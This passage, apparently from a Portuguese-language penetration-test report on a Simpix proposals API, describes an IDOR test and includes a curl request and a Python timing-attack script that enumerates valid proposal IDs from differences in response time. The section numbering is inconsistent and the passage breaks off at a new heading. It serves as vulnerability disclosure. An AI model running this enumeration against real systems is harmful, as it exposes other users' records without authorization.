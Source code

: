 ### 5.1 Narrativa de Ataque: Testing for Insecure Direct Object References (IDOR)

**Target:** `GET /api/propostas/:id`

**Cenário de Ataque:**

1. **Reconhecimento:** Como atacante, eu criaria uma conta de ATENDENTE e observaria os IDs das propostas no sistema.

2. **Enumeração:** Notei que os IDs seguem padrão timestamp: `1753476064646`. Isso permite prever IDs válidos.

3. **Exploit Attempt:**
   ```bash
   # Tentativa de acessar proposta de outra loja
   curl -H "Authorization: Bearer $JWT_TOKEN" \
        https://api.simpix.com/api/propostas/1753476064647
   ```

4. **Resultado Esperado:** Com RLS ativo, deveria receber 404 ou 403.

5. **Resultado Real:** ⚠️ **VULNERABILIDADE CONFIRMADA**
   - O endpoint retorna 404 genérico para propostas não autorizadas
   - Mas o tempo de resposta é diferente (15ms vs 3ms)
   - Isso permite timing attack para enumerar IDs válidos

### 4.2 Proof of Concept

```python
# Timing attack para enumerar propostas válidas
import time
import requests

def check_proposal_exists(id):
    start = time.time()
    r = requests.get(f'/api/propostas/{id}', headers=auth)
    elapsed = time.time() - start
    
    if elapsed > 0.010:  # 10ms threshold
        return True  # Proposta existe (RLS check executado)
    return False  # ID inválido (falha rápida)

# Enumerar 1000 IDs em sequência
valid_ids = []
for i in range(1753476064000, 1753476065000):
    if check_proposal_exists(i):
        valid_ids.append(i)
```

---

## 5. VULNERABILIDADES CRÍTICAS IDENTIFICADAS

### 5.1 Alta Severidade
